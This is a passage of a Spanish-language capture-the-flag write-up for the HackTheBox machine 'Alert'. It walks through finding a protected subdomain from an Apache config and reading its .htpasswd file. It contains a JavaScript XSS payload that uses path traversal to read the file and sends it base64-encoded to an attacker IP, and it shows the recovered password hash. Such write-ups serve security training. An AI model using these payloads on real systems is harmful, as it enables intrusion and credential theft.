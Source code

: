 ```html
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>
```

Encontramos el siguiente subdominio: `statistics.alert.htb`. Este subdominio también lo podríamos haber encontrado fuzzeando con gobuster o wfuzz.

Registramos en nuestro archivo `/etc/hosts` la dirección encontrada junto a la IP del servidor y accedemos al endpoint. Vemos que requiere credenciales para poder acceder:

![Captura](./Imágenes/web_3.png)

Para tratar de obtener credenciales, podemos apuntar justo al endpoint que nos indica la respuesta HTML obtenida: `/var/www/statistics.alert.htb/.htpasswd`.

Mismo proceso:

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

**Decodificamos:**

```bash
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```
